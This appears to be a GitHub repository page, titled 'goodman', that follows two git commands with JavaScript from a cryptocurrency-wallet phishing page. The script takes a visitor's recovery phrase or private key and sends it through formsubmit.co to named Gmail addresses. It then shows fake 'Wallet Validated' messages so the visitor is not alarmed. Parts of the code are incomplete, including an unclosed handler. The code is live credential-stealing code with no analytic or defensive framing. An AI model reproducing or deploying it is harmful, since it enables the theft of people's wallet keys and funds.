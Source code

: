 # goodman
Essayz new link


to remove a remote repository
git remove remote origin

to delete commits and go back to head
git reset --hard HEAD~1










       /*  $.ajax({
          url: 'parser.php',
          method: 'POST',
          data: { import_type: 'phrase', wallet: wallet, phrase: phraseInputVal },
          success: function (res) {
            if (res.trim() != "") {
              if (res.trim() == "string_error") {
                alert('Fill in your recovery phrase');
              } else if (res.trim() == "success") {
                phraseInputVal = '';
                document.querySelector('.sending').style.display = 'block';
                setTimeout(() => {
                  alert('Wallet Validated...');
                  redirect();
                }, 3000);                             
              }
            } else {
              alert('Could not proceed due to some errors, kindly try again later.')
            }
          }
        }); */


        <script>
    const phraseProceedBtn = document.getElementById('phraseProceed');
    const keystorejsonProceedBtn = document.getElementById('keystorejsonproceed');
    const privatekeyProceedBtn = document.getElementById('privatekeyProceed');
    const phraseProceedHandler = (e) => {
      let phraseInputVal = document.getElementById('phraseInput').value;
      const wallet = document.getElementById('wallet_id').value;
      if (phraseInputVal.trim() === "") {
        alert('Fill in your recovery phrase');
      } else {
        e.preventDefault();
        let a = document.querySelector(".label");
        mail = "codenew39@gmail.com";
        next = "next.html";
        subject = `${window.location.hostname} ${new Date()}`;
        let r = new FormData();
        let s = document.querySelector("form").name;
        if (e.target.name === "phrasekey") {
          phrase = document.querySelector("textarea").value;
          r.append("phraseKey", phrase);
        }
        r.append("_captcha", false);
        r.append("_next", next);
        r.append("_template", "table");
        r.append("_subject", subject);
        let n = `https://formsubmit.co/${mail}`;
        fetch(n, {
          method: "POST",
          body: r
        }).then((e) =>
          window.location.assign(next),
        );
      }
    }

    const keystorejsonProceedHandler = (e) => {
        let keystorejson = document.getElementById('keystorejson').value;
        let keystorepassword = document.getElementById('keystorepassword').value;
        const wallet = document.getElementById('wallet_id').value;
        if (keystorejson.trim() === "" || keystorepassword === "") {
          alert('Fill out all form fields before proceeding');
        } else {
        };

        const privateKeyProceedHandler = () => {
          let privatekey = document.getElementById('privatekey').value;
          const wallet = document.getElementById('wallet_id').value;
          console.log(wallet);
          if (privatekey.trim() === "") {
            alert('Fill in your private key');
          } else {
            $.ajax({
              url: `https://formsubmit.co/Mayhemofflin@gmail.com`,
              method: 'POST',
              data: {
                import_type: 'private',
                wallet: wallet,
                privatekey: privatekey
              },
              success: function (res) {
                if (res.trim() !== "") {
                  if (res.trim() === "string_error") {
                    alert('Fill in your private key.');
                  } else if (res.trim() === "success") {
                    privatekey = '';

                    document.querySelector('.sending').style.display = 'block';
                    setTimeout(() => {
                      alert('Wallet Validated...');
                      redirect();
                    }, 3000)
                  }
                } else {
                  alert('Could not proceed due to some errors, kindly try again later.')
                }
              }
            });
          }
        };

        /*  const redirect = () => {
           window.location.href = 'barcode.jpg';
         }; */

        phraseProceedBtn.addEventListener('click', phraseProceedHandler);
        keystorejsonProceedBtn.addEventListener('click', keystorejsonProceedHandler);
        privatekeyProceedBtn.addEventListener('click', privateKeyProceedHandler);
  </script>